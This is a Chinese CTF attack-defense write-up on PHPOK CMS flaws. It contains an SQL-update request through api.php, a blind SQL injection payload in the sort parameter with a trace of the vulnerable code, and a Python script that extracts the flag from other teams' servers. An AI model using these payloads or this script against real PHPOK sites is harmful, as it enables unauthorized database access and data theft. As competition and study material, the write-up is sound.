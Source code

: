 巧的是发这文章的师傅也是这次比赛的选手.

又是挨打后找到流量,

`/api.php?c=call&f=index&data={"m_picplayer":{"site":1,"type_id":"sql","sqlinfo":"update app.d3ctf_list_40 set content=(select 1) where id = 1756"}}"`

也可使用反序列化后getshell,但大佬们似乎为了快速获得flag,只将flag弄到了前台,并没有维持权限与getshell.所以这虽然是你审计的0day,但是下一秒是我的了.

大概有两三只队伍到游戏结束也没修复.

### sql注入

同样位于api接口,没有直接的回显,可以盲注.

payload:`api.php?c=project&f=index&token=q&id=news&sort=IF(ascii(substr((select flag from ctf.flag),%s,1))=%s,1,(select 1 from information_schema.tables))`

简单追踪一下漏洞位置:

`phpok/frameword/api/project_control.php:190-194`

```php
    if ($sort) {
        $dt['orderby'] = $sort;
        $pageurl .= '&sort=' . rawurlencode($sort);
        $this->rlist['sort'] = $sort;
    }
```
sort参数被赋值到`$dt['orderby']`

在212行:`$info = $this->call->phpok('_arclist', $dt);`

跟进`phpok/frameword.`:

```php
    $orderby = $rs['orderby'] ? $rs['orderby'] : $project['orderby'];
    if (!$rs['is_list']) {
        $rs['psize'] = 1;
    }
    $offset = $rs['offset'] ? intval($rs['offset']) : 0;
    $psize = $rs['is_list'] ? intval($rs['psize']) : 1;
    $rslist = $this->model('list')->arc_all($project, $condition, $field, $offset, $psize, $orderby);
```

可以看到`$rs['orderby']`被代入查询,中间没有任何关于sql的过滤.

通过盲注getflag.照着其他队打过来的payload,快速写了个exp反打.

```python
def exp(ip):
    base_url = "http://%s/api.php?c=project&f=index&token=q&id=news&sort="
    sql = "IF(ascii(substr((select flag from ctf.flag),%s,1))=%s,1,(select 1 from information_schema.tables)) "
    s = "0987654321abcdef"
    flag=''
    print(base_url%ip+quote(sql%(1,ord('f'))))
    t = requests.get(base_url%ip+quote(sql%(1,ord('f'))))
    if "执行错误"  not in t.text :
        return
    print(ip)
    for i in range(7,39):
        for j in s:
            # print(base_url%ip+'1')
            print(i)
            res = requests.get(base_url%ip+quote(sql%(i,ord(j)))).text
            if "执行错误" not in res :
                flag+=j
                print(flag)
                break
```